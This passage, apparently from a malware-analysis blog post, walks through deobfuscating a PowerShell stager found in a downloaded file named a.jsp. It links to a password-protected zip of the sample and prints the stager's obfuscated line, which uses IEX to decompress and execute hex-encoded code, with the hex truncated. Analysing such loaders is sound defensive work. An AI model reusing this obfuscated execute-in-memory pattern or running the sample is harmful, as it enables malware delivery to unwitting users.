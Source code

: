 ![](/assets/images/powershell-deobfuscation/Downloader.gif)

Sending that request gets us a file: a.jsp. The file initially contains the obfuscated PowerShell code. The whole code is included [here](/assets/images/powershell-deobfuscation/a.jsp.zip). 

**Password: infected**

### a.jsp: Stager

```powershell
rAAM2XSdp7kIqh7eCPQSEm7vY2MARGRPfF2wIRvMjHdxB/zQFAP1Vw/CRHC3bjz9wErpENVn0y/hh7buezTN4CuFK3/re6FtHnEc4sSy3EL0dhj8X4rD/X/jBYKgziJxRx4bOGvWMXQWoWitlAKQAvlZIMhcy3IhPf5GZza6cF0=
I`EX $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$('edbd07601c499625262f6dca7b7f......'-split'(..)'|?{$_}|%{[convert]::ToUInt32($_,16)}))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```

The first few bytes are the signature of the script itself. Later on, we can see other scripts verifying the first 173 bytes of the script as the signature.

{: style="text-align:center"}
![](/assets/images/powershell-deobfuscation/PowerShell_Length.png)

This seems like a script which has hex content inside of it, which is decompressed as ASCII text.

We can see the `IEX` cmdlet clearly at the start, we can just separate it from the rest of the script to get the decompressed version of the included hex data.
